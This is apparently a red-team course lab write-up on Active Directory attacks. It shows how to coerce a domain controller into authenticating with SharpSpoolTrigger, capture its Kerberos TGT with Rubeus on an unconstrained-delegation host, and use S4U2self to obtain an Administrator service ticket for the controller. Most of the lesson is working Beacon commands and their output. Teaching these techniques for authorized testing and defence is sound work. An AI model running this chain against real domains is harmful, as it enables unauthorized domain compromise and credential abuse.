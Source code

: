 
In the previous lab on [unconstrained delegation](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=6731fd18dc6d251272081c5f), there was an automated task that had the user _dyork_ interact with the CIFS service on _lon-ws-1_ (e.g. `dir \\lon-ws-1\c$`).  Because this computer was configured for unconstrained delegation, it allowed us to capture their TGT from memory and impersonate them to access the domain controller (since dyork happened to be a domain admin).

In the real world, we're obviously not guaranteed to have a user, let alone a DA, interact with the computer whilst we're monitoring for tickets.  Although there are techniques to harvest them by [seeding](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/) files such as `.lnk`, `.url`, `.library-ms`, and `.searchConnector-ms`, they still rely on user-interaction.  The objective of this lesson is to go after a computer (such as domain controller) directly.

There are multiple 'remote authentication triggers' that can be used to force a computer to authenticate to another computer.  Two popular techniques include Lee Christensen's 'SpoolSample', which uses the Print System Remote Protocol [MS-RPRN]; and Topotam's 'PetitPotam', which uses the Encrypting File System Remote Protocol [MS-EFSRPC].

We could therefore monitor for tickets on lon-ws-1:

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:5 /nowrap
```

Then use a tool such as [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) to force _lon-dc-1_ to authenticate to _lon-ws-1_.

```powershell
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe lon-dc-1 lon-ws-1

NdrClientCall2x64
[-]RpcRemoteFindFirstPrinterChangeNotificationEx status: 6
```

> The remote authentication trigger should be run as a standard domain user in a medium-integrity context.

Rubeus will then capture the TGT of the targeted computer account.

```powershell
[*] 21/02/2025 11:54:39 UTC - Found new TGT:

  User                  :  LON-DC-1$@CONTOSO.COM
  StartTime             :  21/02/2025 10:39:21
  EndTime               :  21/02/2025 20:38:58
  RenewTill             :  28/02/2025 10:38:58
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFt[...snip...]5DT00=
```

However, if you inject this ticket into a logon session and attempt to access the computer using a service like CIFS, you'll see that it will fail with an 'access denied' error.

```powershell
beacon> run klist

Cached Tickets: (1)

#0>	Client: LON-DC-1$ @ CONTOSO.COM
	Server: krbtgt/CONTOSO.COM @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	Start Time: 2/21/2025 10:39:21 (local)
	End Time:   2/21/2025 20:38:58 (local)
	Renew Time: 2/28/2025 10:38:58 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$
[-] could not open \\lon-dc-1\c$\*: 5 - ERROR_ACCESS_DENIED
```

This is because computer accounts do not get local admin access to themselves remotely.  The workaround to compromise any computer once you have its TGT is to use the S4U2self protocol to obtain a usable service ticket for a different (impersonated) user.  I believe this technique was first published by [Elad Shamir](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html) and merged into Rubeus by [Charlie Clark](https://exploit.ph/revisiting-delegate-2-thyself.html).

Charlie added a new `/self` parameter to Rubeus' `s4u` command.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/lon-dc-1 /ticket:doIFt[...snip...]5DT00= /nowrap
```

Where:

- `/impersonateuser` is the user we want to impersonate.
    
- `/self` tells Rubeus not to submit an S4U2proxy request.
    
- `/altservice` is the SPN we want substituted into the service ticket.
    
- `/ticket` is the computer's TGT.

```powershell
[*] Action: S4U

[*] Building S4U2self request for: 'LON-DC-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/lon-dc-1'
[*] Got a TGS for 'Administrator' to 'cifs@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF/[...snip...]kYy0x
```